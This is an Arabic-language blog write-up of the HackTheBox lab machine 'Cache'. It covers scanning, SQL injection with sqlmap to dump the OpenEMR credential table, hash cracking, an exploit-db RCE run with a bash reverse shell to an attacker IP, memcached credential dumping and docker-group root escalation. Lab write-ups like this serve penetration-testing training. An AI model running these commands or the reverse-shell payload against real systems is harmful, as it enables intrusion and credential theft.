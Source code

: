 
---
title: Getting Started
author: fasto
date: 2020-10-10 10:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
<h1>Summary</h1>
<br>
السلام عليكم 
<br>
 hachthebox ساقوم بمشاركة مقال صغير يتحدث على هذا التحدي السيرفير متاح عبر منصة
 <br> هي منصة مختصة باختبار الاختراق في البداية نقوم ببعض الفحص المبدئي نجد كلمة سر واسم مستخدم بالاضافة الى دومين نايم مصاب 
<br>   shell نستغلهما للحصول على sql injection و rce  بثغرتين 
  <br>
 نكتشف ان اليوزر ينتمي الى مجموعة دوكر نستطيع بذلك الحصول على صلاحيات الروت بكل سهولة privilege escalation بصلاحية اباشي وفي جزئية    
<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
---
    nmap نبدا بفحص البورتات باستخدام

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```
نلاحظ وجود 2 بورت
<br>
80 : الخاص بالويب سيرفر
<br>
22: الخاص ب ssh
<br>
لنبدا مع 80                                                                                                                                  
![Desktop View](/img/00.png)
 
sqli عند تصفح السيرفر نجد هناك مربع تسجيل الدخول نجرب 
<br>
 
لكن لا جدوى الموقع ليس مصاب 
<br>
![Desktop View](/img/0.png)


<h4>Enumeration</h4>

نشغل dirb
<br>
بالامر التالي

![Desktop View](/img/1.png)
  javascript نلاحظ وجود 2 مجلدات  
و
<br>
jquery
<br>
عند فتح المجلد الثاني نجد هناك ملف بداخله  كلمة سر و كلمة مستخدم لنحتفظ به ونستمر بالبحث 
<br>password : H@v3_fun
<br>username : ash

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
نبحث عن دومين باستخدام
<br>
ffuf

![Desktop View](/img/3.png)
<br>
 hms وجدنا دومين اسمه

نضع الدومين في ملف 
<br>
/etc/hosts
<br>
```
10.10.10.188    hms.htb
```
نتصفح الدومين الجديد 
![Desktop View](/img/4.png)
 بعد البحث في جوجل نجد ان التطبيق الشغال في هذا الدومين مصاب بثغرة الحقن
<br></br>
وجدنا هذا الفيديو على يوتيوب يشرح هذه الثغرة
<br>
https://www.youtube.com/watch?v=DJSQ8Pk_7hc
<br>
نتبع الخطوات كما هو موضح في الفيديو
<br>
burp نلتقط الريكوست باستخدام برنامج 
![Desktop View](/img/5.png)

نقوم بحفظ الريكوست في ملف 
![Desktop View](/img/6.png)
<br>
sqlmap ثم نقوم بالحقن باستخدام 
<br>
```sqlmap -r om.req  --dbs```
<br>om.req ---> الريكوست السابقة
<br>
\--dbs  ---> عرض قواعد البيانات

![Desktop View](/img/7.png)
<br>
وجدنا اسم قاعدة البيانات
![Desktop View](/img/8.png)
<br>
لنستخرج الجداول الان
``` sqlmap -r login.req -D openemr --table ```
<br>
<br>-D      ---> اسم قاعدة البيانات
<br>--table ---> استخراج الجداول
<br>  
الان استخرجنا كل الجداول الان نسحب كلمة السر واليوزر المتواجد في الجدول
<br>
users_secure
<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
وجدنا كلمة سر مشفرة
<br>
john نفك تشفيرها باستخدام برنامج
  <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
xxxxxx حصلنا على كلمة سر 
 
<br>
نجد انها صحيحةopenemr عند تجريبها في    
 
<br>   rce من البحث السابق وجدنا ايضا ان البرنامج مصاب بثغرة
ووجدنا ايضا سكريبت الاستغلال
نحمله من هنا
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```
<br>
 الخاص بك ip ضع  
10.10.14.212  :مكان

<br> الان دخلنا الى السيرفر
لكن بصلاحيات اباشي
<h4>Privilege Escalation</h4>

باستخدام الامر التالي نلاحظ ان البورت 11211 مفتوح
<br>
```netstat -plant```
<br>
  memcached هذا البورت خاص ب 
![Desktop View](/img/14.png)


```netstat -plant```
<br>لنقم بسحب البيانات
<br>  telnet عبر memcached نتصل ب   
```telnet localhost 11211```
<br>  STAT command نكتب الامر التالي  
```STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```
ثم
stats cachedump 1 0

```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```
حصلنا على اليوزر
```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
حصلنا على كلمة السر
```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>![Desktop View](/img/15.png)

<br>
 ssh حصلنا على اليوزر و كلمة السر لنجرب الاتصال عبر 
<br>
<br>

  doker ينتمي الى المجموعة  luffy نكتشف ان اليوزر
 

<br>
gtgobins  نذهب الى موقع
```https://gtfobins.github.io/gtfobins/docker/
```
 
  
<br>![Desktop View](/img/16.png)
```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 ```
 
<br>![Desktop View](/img/17.png)
حصلنا على صلاحيات رووت
